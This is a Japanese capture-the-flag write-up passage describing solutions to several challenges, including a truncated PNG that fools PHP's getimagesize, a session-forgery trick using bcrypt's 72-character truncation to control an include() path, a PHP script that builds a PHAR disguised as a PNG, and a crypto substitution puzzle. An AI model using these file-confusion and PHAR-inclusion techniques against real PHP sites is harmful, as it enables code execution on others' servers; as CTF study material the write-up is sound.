 
getimagesize の方のソースコードを読んでみると、https://github.com/php/php-src/blob/879cd0491399ccfacac0d6ed701d998a65a6cc97/ext/standard/image.c#L323 適当な長さで切ってやれば`mimeinfo`と異なる結果を返しそうに見えるので、送信してみたところフラグが得られた。


送信したファイル:


```text
$ xxd test2.png
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 00b4 0000 00b4                      ........
```


# Avatar Uploader 2 (Web 300pts)


ヒントにあった通り、セッションの署名に`password_hash` が利用されていて、PASSWORD_BCRYPT は最大 72 文字に切り詰められる。これを利用して、セッションの JSON をコントロールできる。


```text
    57      return password_hash($this->secret . $string, PASSWORD_BCRYPT);
```


セッションのコントロールによって、次のテーマ読み込み箇所で任意の文字列を include させることができるようになるが、最後に’.css’となるファイルはアップロードできない。


```text
    25  <?php include($session->get('theme', 'light') . '.css'); ?>
```


次のスクリプトで PNG ファイルとして判断されるような、PHAR を作成して,それを読み込ませることで対応した。


```php
<?php
    $phar = new Phar('exploit.phar');
    $phar->startBuffering();
    $phar->addFromString('test', 'test');
    $fp = fopen('header', 'rb');
    $bin = fread($fp, 64);

    $phar->setStub($bin . '<?php __HALT_COMPILER(); ? >');
    $fp = fopen('img/hoge.css', 'rb');
    $phar['hoge.css'] = $fp;
    $phar->stopBuffering();
```


# twenty-five (Crypto 100pts)


辞書として、`reserved.txt`が与えられているのでバックトラックでマッチするような置換を求める。
ただし、問題で渡される`reserved.txt`は何故か不完全で
解が出ないので、http://www.namazu.org/~takesako/ppencode/demo.html から辞書を作り直す必要があった。
